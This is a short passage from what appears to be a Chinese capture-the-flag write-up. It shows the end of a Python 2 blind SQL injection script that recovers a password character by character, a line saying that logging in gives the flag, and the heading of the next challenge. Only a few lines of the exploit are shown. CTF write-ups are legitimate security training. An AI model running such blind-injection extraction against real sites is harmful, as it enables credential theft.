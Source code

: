 ```python
			if re.search('password',res.content):
				password = password + i
				print password
				payload = payload + i

if __name__ == '__main__':
	exp()

```
![](https://github.com/c1h3ng/c1h3ng.github.io/blob/master/assets/images/blindsqli.png?raw=true)

登陆即可得到flag
# 0x04 快速计算
![](https://github.com/c1h3ng/c1h3ng.github.io/blob/master/assets/images/calc.png?raw=true)
